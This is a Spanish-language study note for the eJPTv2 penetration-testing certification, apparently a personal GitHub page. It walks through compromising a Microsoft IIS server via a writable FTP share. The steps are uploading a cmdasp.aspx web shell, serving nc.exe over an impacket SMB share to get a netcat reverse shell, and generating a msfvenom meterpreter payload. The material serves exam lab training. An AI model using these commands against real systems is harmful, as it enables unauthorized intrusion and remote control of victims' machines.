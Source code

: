 ```yaml
---
layout: default
title: Preparación EJPTv2
---
```


# Microsoft IIS

### 📝 ¡IMPORTANTE!:

 💡 - Si al entrar en el servicio FTP comprobamos que este servicio está vinculado con la web que esté corriendo por el puerto 80 y en el puerto 80 vemos que está corriendo un servicio como Microsoft IIS o parecido, debemos realizar los siguientes pasos:

## 🏴‍☠️ ¿Obtener acceso remoto?

- En nuestra máquina atacante buscamos: find / -name cmdasp.aspx 2>/dev/null que normalmente Kali Linux lo almacena en el siguiente directorio: /usr/share/webshells/aspx/cmdasp.aspx

Una vez tengamos este recurso localizado deberemos COPIAR el mismo a nuestro directorio actual, y digo copiar porque si este recurso lo movemos y después lo eliminamos nos quedaremos sin el. Ahora desde nuestro directorio actual donde nos hemos traído el archivo debemos conectarnos nuevamente al servicio FTP por el puerto 21 y ahora con el comando put subir el archivo.

```bash
put cmdasp.aspx # Subir el archivo que nos habiamos copiado a nuestro directorio.
```

Una vez tengamos el archivo copiado en el servidor FTP víctima lo que debemos hacer el irnos al navegador, apuntar al host objetivo pero añadiendo /cmdasp.aspx

```bash
<host_objetivo>/cmdasp.aspx # Apuntar al host objetivo.
```

Y veremos que se no mostrará un campo en el que podremos introducir comandos para ejecutarlos y desde ese momento habremos conseguido un RCE.

## 🔓 ¿Cómo consigo intrusión a nuestra máquina víctima?

Al igual que hemos hecho antes ahora debemos buscar el archivo nc.exe que suele estar en este directorio: /usr/share/windows-resources/binaries/nc.exe debemos realizar la misma operación que antes y copiar este archivo en nuestra máquina atacante a nuestro directorio de trabajo actual.

```bash
find / -name nc.exe 2>/dev/null # Buscamos este archivo en nuestra máquina atacante y lo copiamos a nuestro directorio de trabajo actual.
```

Una vez que tenemos este archivo localizado y copiado en nuestro directorio actual lo que vamos a hacer es en este mismo directorio levantar un servidor con un recurso compartido para posteriormente desde el host donde tenemos el RCE apuntar a dicho recurso compartido y ejecutarlo para así conseguir una Reverse Shell.

Levantamos un recurso compartido con la herramienta impacket

```bash
impacket-smbserver <nombre_recurso> $(pwd) -smb2support # Con $(pwd) le indicamos que levante el servidor en el directório actual.
```

Una vez que hayamos iniciado el servidor con nuestro recurso compartido, en nuestra máquina atacando vamos a abrir otra pestaña nueva y vamos a ponernos a la escucha con Netcat por el puerto que nosotros queramos para recibir la conexión y entablar la reverse shell.

```bash
sudo nc -nlvp <puerto_escogido> # Escogemos el puerto que queramos Ej: 443,4444,5555, etc.
```

Volvemos a la web donde con cmdasp habíamos conseguido la ejecución remota de comandos, y en la barra donde introduciamos el comando a ejecutar, escribimos lo siguiente:

```bash
\\<ip_nuestra_máquina>\<recurso_compartido>\\nc.exe -e cmd.exe <ip_nuestra_máquina> <puerto_escucha_netcat> # Ejemplo: \\10.10.10.10\exerecurso\nc.exe -e cmd.exe 10.10.10.10 443
```

Si accedemos a la pestaña donde establecimos la escucha con Netcat, podremos verificar que hemos obtenido una reverse shell. A continuación, es fundamental determinar si la intrusión se ha realizado con privilegios de administrador, el usuario con los máximos permisos en el sistema. En caso contrario, será necesario llevar a cabo pasos adicionales para elevar privilegios.

Para ello, convertiremos la sesión obtenida con Netcat en una sesión de Meterpreter, lo que nos permitirá utilizar Metasploit para la escalada de privilegios. El primer paso en este proceso es generar un archivo ejecutable (.exe) que deberá ejecutarse en la máquina víctima con el fin de establecer la sesión de Meterpreter

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<nuestra_ip> LPORT=<puerto_escucha> -f exe > shell.exe # Creamos un archivo .exe malicioso para obtener una sesión meterpreter.
```

